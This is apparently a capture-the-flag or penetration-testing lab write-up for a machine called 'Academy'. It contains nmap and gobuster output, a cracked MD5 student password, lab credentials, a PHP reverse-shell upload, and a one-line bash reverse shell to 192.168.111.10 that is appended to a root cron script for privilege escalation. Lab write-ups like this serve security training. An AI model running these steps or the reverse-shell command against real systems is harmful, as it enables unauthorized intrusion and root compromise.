 ```yaml
---
title: academy (PNPT)

date: "2023-12-22"

author: "MatDef"

---
```


# Description:

# Information Gathering

## Enumeration

### nmap
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.111.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
Ftp-anon: Found note.exe:
```sql
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');
```
Login Rum Ham: 10201321:student(MD5)
Academy admin: Grimmie (uses the same password )
SQL Database admin: jdelta
### gobuster
```shell
/academy              (Status: 301) [Size: 318] [--> http://192.168.111.11/academy/]
/phpmyadmin           (Status: 301) [Size: 321] [--> http://192.168.111.11/phpmyadmin/]
```
![profile-picture upload](images/academy_upload.png)

# Exploitation
Upload php-reverseshell and got Access
Found backup.sh which is also in crontab (runing every minute)
![](images/crontab.png)

Linpeas:

![](images/mysql_password.png)
phpMyAdmin: grimmie:My_V3ryS3cur3_P4ss

-> SSH Access

Modify backup.sh:
`echo "/bin/bash -i >& /dev/tcp/192.168.111.10/9002 0>&1" >> backup.sh`

Got Root-Shell
---

### References & Further Research
[Another PrivEsc: Linux chfn (SuSE 9.3/10)?](https://www.exploit-db.com/exploits/1299)

